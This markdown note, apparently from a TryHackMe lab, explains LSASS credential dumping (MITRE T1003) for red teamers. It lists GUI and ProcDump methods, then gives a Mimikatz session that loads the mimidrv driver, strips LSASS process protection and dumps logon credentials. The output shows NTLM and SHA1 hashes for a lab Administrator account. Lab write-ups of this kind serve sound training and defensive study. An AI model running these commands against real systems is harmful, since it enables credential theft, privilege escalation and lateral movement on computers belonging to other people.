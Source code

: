 # Local Security Authority Subsystem Service

Local Security Authority Server Service (LSASS) is a Windows process that handles the operating system security 
policy and enforces it on a system. It verifies logged in accounts and ensures passwords, hashes, and Kerberos 
tickets. Windows system stores credentials in the LSASS process to enable users to access network resources, 
such as file shares, SharePoint sites, and other network services, without entering credentials every time a 
user connects.

Thus, the LSASS process is a juicy target for red teamers because it stores sensitive information about user accounts. 
The LSASS is commonly abused to dump credentials to either escalate privileges, steal data, or move laterally. If we 
have administrator privileges, we can dump the process memory of LSASS. Windows system allows us to create a dump file, 
a snapshot of a given process. This could be done either with the Desktop access (GUI) or the command prompt. 
This attack is defined in the MITRE ATT&CK framework as "OS Credential Dumping: LSASS Memory (T1003)".

* To dump any running Windows process using the GUI, open the Task Manager, and from the Details tab, find the required 
process, right-click on it, and select "Create dump file".
* An alternative way to dump a process if a GUI is not available to us is by using `ProcDump`. `ProcDump` is a 
`Sysinternals` process dump utility that runs from the command prompt.
* Mimikatz is a well-known tool used for extracting passwords, hashes, PINs, and Kerberos tickets from memory using 
various techniques. Mimikatz is a post-exploitation tool that enables other useful attacks, such as pass-the-hash, 
pass-the-ticket, or building Golden Kerberos tickets. Mimikatz deals with operating system memory to access information  
and requires administrator and system privileges in order to dump memory and extract credentials.

## Protected LSASS and Mimikatz

To disable LSASS protection:

```text
C:\Tools\Mimikatz> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 Jul 10 2019 23:09:43
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK
mimikatz # sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
mimikatz # !+
[*] 'mimidrv' service not present
[+] 'mimidrv' service successfully registered
[+] 'mimidrv' service ACL to everyone
[+] 'mimidrv' service started
mimikatz # !processprotect /process:lsass.exe /remove
Process : lsass.exe
PID 528 -> 00/00 [0-0-0]
```

## Again

```text
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 515377 (00000000:0007dd31)
Session           : RemoteInteractive from 3
User Name         : Administrator
Domain            : THM
Logon Server      : CREDS-HARVESTIN
Logon Time        : 6/3/2022 8:30:44 AM
SID               : S-1-5-21-1966530601-3185510712-10604624-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : THM
         * NTLM     : 98d3a787a80d08385cea7fb4aa2a4261
         * SHA1     : 64a137cb8178b7700e6cffa387f4240043192e72
         * DPAPI    : bc355c6ce366fdd4fd91b54260f9cf70
...
```